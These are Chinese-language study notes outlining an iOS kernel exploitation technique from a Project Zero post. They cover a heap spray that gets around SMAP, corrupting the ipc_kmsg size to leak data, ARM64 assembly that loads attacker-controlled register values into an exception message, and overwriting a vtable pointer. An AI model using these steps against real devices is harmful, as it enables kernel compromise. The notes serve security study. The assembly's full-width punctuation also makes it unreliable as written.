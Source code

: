 

# 绕过smap的堆喷

## 如果申请大小在2048到4096，那么可以一次申请一页，因此可以绕过页内随机化。

## 另外kmsg是这次利用的主题 

struct ipc_kmsg {
  mach_msg_size_t ikm_size;
  struct ipc_kmsg * ikm_next;
  struct ipc_kmsg * ikm_prev;
  mach_msg_header_t * ikm_header;
  ipc_port_t ikm_prealloc;
  ipc_port_t ikm_voucher;
  mach_msg_priority_t ikm_qos;
  mach_msg_priority_t ikm_qos_override
  struct ipc_importance_elem * ikm_importance;
  queue_chain_t ikm_inheritance;
};

通过更改 kmsg的size来进行信息泄漏

传递一个exception_mask 的EXC_MASK_ALL，EXCEPTION_STATE 的行为和ARM_THREAD_STATE64 为new_flavor 意味着内核将发送exception_raise_state 消息，我们指定每当指定线程错误的异常端口。该消息将包含所有ARM64通用目标寄存器的状态，这就是我们将用于从ipc_kmsg 缓冲区末尾写入受控数据的内容！



### 编写

在我们的iOS XCode项目中，我们可以添加一个新的程序集文件并定义一个函数load_regs_and_crash ：

.globl _load_regs_and_crash
.align 2
_load_regs_and_crash：
mov x30，x0
ldp x0，x1，[x30,0]
ldp x2，x3，[x30,0x10]
ldp x4，x5，[x30,0x20]
ldp x6，x7，[x30,0x30]
ldp x8，x9，[x30,0x40]
ldp x10，x11，[x30,0x50]
ldp x12，x13，[x30,0x60]
ldp x14，x15，[x30,0x70]
ldp x16，x17，[x30,0x80]
ldp x18，x19，[x30,0x90]
ldp x20，x21，[x30,0xa0]
ldp x22，x23，[x30,0xb0]
ldp x24，x25，[x30,0xc0]
ldp x26，x27，[x30,0xd0]
ldp x28，x29，[x30,0xe0]
brk 0
.align 3


信息泄漏出堆地址，然后释放第二个msg，更改为OSSerializer :: serialize

泄漏内核地址，更改虚表指针



https://googleprojectzero.blogspot.com/2017/04/exception-oriented-exploitation-on-ios.html